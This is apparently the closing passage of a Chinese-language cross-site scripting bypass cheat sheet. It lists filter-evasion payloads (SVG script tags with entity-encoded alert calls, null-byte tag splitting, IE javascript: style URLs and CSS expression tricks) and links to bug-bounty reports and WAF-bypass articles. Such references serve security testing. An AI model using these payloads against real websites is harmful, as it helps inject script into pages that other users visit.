 svg 可以自动解析 js 标签中的 html 编码

```
<svg><script>alert(1);</script>
```

```
<svg><script>&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</script>
```

null char

```
<\0s>1
<\x00s>1
<\u0000s>1
```

### IE

IE 浏览器 input 标签 style 属性伪协议绕过

```
style="background-image:url(javascript:alert(6))"
```

IE 浏览器的 expression 绕过

```
hello:expression(alert(1);)
```

CSS 层叠样式表注释会替换为空

```
hello:expr/**/ession(alert(1);)
```

---

References

- [CWE-79](https://hackerone.com/hacktivity/cwe_discovery?id=cwe-79)
- [The return of the ＜](https://hackerone.com/reports/639684)
- [Stored XSS in Wiki pages](https://hackerone.com/reports/526325)
- [Stored XSS on imgur profile](https://hackerone.com/reports/484434)
- [尖括号被过滤无法闭合?有没有尝试过用表情符号触发的XSS？](https://mp.weixin.qq.com/s/lF53d_DHEnYhch_H3R82DQ)
- [xss bypass备忘单|xss绕过防火墙技巧|xss绕过WAF的方法](https://www.ddosi.org/xss-bypass/)
- [DiscuzX2个人空间图片EXIF信息XSS](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2012-07468)

